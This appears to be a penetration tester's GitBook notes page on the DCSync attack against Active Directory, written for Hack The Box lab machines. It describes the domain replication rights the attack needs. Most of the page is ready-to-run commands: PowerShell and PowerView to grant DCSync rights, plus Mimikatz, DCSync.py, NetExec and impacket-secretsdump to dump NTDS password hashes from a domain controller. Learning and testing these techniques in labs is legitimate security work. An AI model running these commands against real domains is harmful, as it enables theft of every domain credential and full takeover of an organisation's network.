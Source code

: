 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# DCSync

## TL;DR

DCSync is late-phase attack that allows an attacker to **mimic a DC** and then dump `ntds.dit`. To perform this attack, we must have control over an account that has the rights to perform domain replication, aka **DCSync rights** (Figure 1):

1. `Replicating Directory Changes`
2. `Replicating Directory Changes All`
3. `Replication-Get-Changes-In-Filtered-Set` (sometimes)

{% hint style="info" %}
**Domain/Enterprise Admins** have these rights by default.&#x20;

If we have **`WriteDacl`**rights over an account, we can assign **DCSync rights** to it.&#x20;

The **Windows Exchange Permissions** group has **DCSync rights**.

_Example:_[ _Forest_](../../../../boxes/boxes/easy/forest.md#privilege-escalation)
{% endhint %}

## Windows

{% tabs %}
{% tab title="EnumRights*" %}
```powershell
dsacls "DC=domain,DC=local"
```
{% endtab %}

{% tab title="AssingRights**" %}
```powershell
$acl = get-acl "ad:DC=domain,DC=local"
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
$sid = new-object System.Security.Principal.SecurityIdentifier $user.SID
# rightsGuid for the extended right Ds-Replication-Get-Changes-All
$objectguid = new-object Guid  1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
$identity = [System.Security.Principal.IdentityReference] $sid
$adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
$type = [System.Security.AccessControl.AccessControlType] "Allow"
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
# rightsGuid for the extended right Ds-Replication-Get-Changes
$objectguid = new-object Guid 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
Set-acl -aclobject $acl "ad:DC=domain,DC=local"
```
{% endtab %}

{% tab title="PowerView" %}
{% code overflow="wrap" %}
```powershell
Add-DomainObjectAcl -TargetIdentity "DC=domain,DC=local" -PrincipalIdentity user1 -Rights DCSync
```
{% endcode %}
{% endtab %}

{% tab title="Mimikatz" %}
```powershell
mimikatz # lsadump::dcsync /domain:HTB.LOCAL /user:HTB\administrator
```
{% endtab %}
{% endtabs %}

_\*_[_dsacls_](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771151\(v=ws.11\)) _requires an elevated command prompt_, \*\*_explained_ [_here_](https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md)

## Linux

{% tabs %}
{% tab title="DCSync rights" %}
{% code overflow="wrap" %}
```bash
DCSync.py -dc htb.local -t 'CN=hacker,CN=Users,DC=htb,DC=local' 'htb.local\hacker:h@ck3r!'
```
{% endcode %}
{% endtab %}

{% tab title="NetExec" %}
```bash
nxc smb 10.10.10.161 -u hacker -p h@ck3r! --ntds --user administrator
```
{% endtab %}

{% tab title="Impacket" %}
<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>impacket-secretsdump htb.local/hacker@10.10.10.161 -just-dc-user administrator
</strong></code></pre>
{% endtab %}
{% endtabs %}

For an example of a DCSync attack using `DCSync.py` -> `secretsdump.py` check [here](https://x7331.gitbook.io/boxes/boxes/boxes/easy/active#eop-via-kerberoasting), or using NetExec [here](https://x7331.gitbook.io/boxes/boxes/boxes/easy/sauna#dcsync-attack).

## Resources

{% tabs %}
{% tab title="DCSync" %}
{% embed url="https://www.alteredsecurity.com/post/a-primer-on-dcsync-attack-and-detection" %}
A great article about the DCSync attack.
{% endembed %}
{% endtab %}

{% tab title="Secretsump" %}
{% embed url="https://www.youtube.com/watch?v=QfyZQDyeXjQ" %}
How Secretsdump script work behind the scenes!
{% endembed %}
{% endtab %}
{% endtabs %}
